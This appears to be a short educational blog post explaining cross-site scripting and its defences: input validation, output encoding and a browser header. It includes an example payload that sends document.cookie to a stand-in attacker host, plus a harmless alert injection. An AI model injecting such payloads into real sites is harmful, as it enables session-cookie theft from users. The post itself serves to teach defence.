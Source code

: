 ```yaml
---
layout: post
title:  Security - XSS
tags: security
---
```


This is the second post of a **Web Security Series**. Let's talk about the well known XSS (Cross-Site Scripting) attack.

## XSS

XSS attacks are based on script injection exploiting the echoes/output from the server in response to user input, without validation or output encoding.

```html
<form action="benign.php" method="post">
    <input type="text" name="message">
    <input type="submit" value="submit">
</form> 

<!-- output sent message -->
${message}
```

#### Example #1

Injecting a script to send cookies to a malicious site.

```html
<script>new Image().src = ‘http://evil.php/steal?' + document.cookie</script>
```

#### Example #2

Injecting a simple tag to execute random javascript.

```html
<b onmouseover=alert('Wufff!')>click me!</b>
```

## Solution

There are two well known types of XSS attacks (Stored and Reflected). Stored or persistent Xss attacks are saved/persisted in the backend and can be retrieved later for various uses. Reflected are the ones shown in the previous examples.

To address both the issues both user **input validation** should be enforced as well as **output enconding**.

### Input Validation

We can use the framework of choice to help validate user input. We should strive for whitelising as much as possible.

```java

// bean validation example
class Message {

@NotNull
@Pattern(regexp="[a-z]*")
@Size(min=5, max=10)
private String payload;

// getters and setters omitted
}

// controller 
@Valid Message message;
```

Couple of **Important Notes**:
* whitelist as much as possible, not blacklist.
* Avoid reflecting input back to the user (form, url, etc).

### Output Validation

Leverage the framework encoding capabilities to encode the output to prohibit writing malicious code back into the *HTML*.

```html
<!-- output sent message (jstl) -->
<c:out value="${message}"/>
```

## Caveats

**Response Header**
- X-XSS-Protection: 1; mode=block

Although modern browser use this header to validate XSS potential responses and block the output. This shoould not be relied upon as some browsers can disregard this instruction. 